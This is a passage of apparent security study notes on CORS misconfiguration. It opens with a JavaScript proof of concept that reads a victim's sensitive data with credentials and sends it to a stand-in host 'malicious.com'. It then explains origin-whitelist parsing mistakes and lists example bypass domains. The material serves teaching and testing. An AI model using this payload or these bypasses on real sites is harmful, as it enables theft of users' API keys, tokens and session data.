 ```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','<http://vuln-web.com/senditive-info>',true);
req.withCredentials = true;
req.send();

function reqListener(){
location='//malicious.com/log?key='+this.responseText;
};

```

- `Note:` here this is same as CSRF, in CSRF attack we execute some operation from the user, in `CORS` we just forcefully request some data with our `attacker.domain origin header` so we retrieve the response from and steal sensitive info of the victim such as `API key, CSRF token, Auth token etc`

## Errors parsing Origin headers

- some applications that support access from multiple origins do so by using a whitelist of allowed origins.
- when a CORS request is received, the supplied origin is compared to the whitelist, if the origin appears on the whitelist then it is reflected in the `ACAO` header so that access is granted.
- `example:`

```
GET /data HTTP/1.1
Host: normalweb.com
...
Origin: <http://innocent-web.com>

```

here the application checks the supplied origin against its list of allowed origins and if it is on the list, reflects the origin as

```
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: <http://innocent-web.com>

```

- Mistakes arise when Implementing `CORS` origin whitelist.
- some organization decide to allow access from all their subdomains(including future subdomain yet not in existence).
- some applications allow access from various other organizations's domains including their SUbdomains.
- these rules often implemented by matching `URL prefixes or Suffixes or using regular expressions`, any mistakes in the implementation can lead to access being granted to unintended external domains
- `Example:` application grants access to all domains ending `normalweb.comBypass:` `hackersnormalweb.com` easily bypassed
- `Example2:` application grants access to all domains beginning with `normalweb.com` `Bypass:` `normalweb.com.evil-user.com`
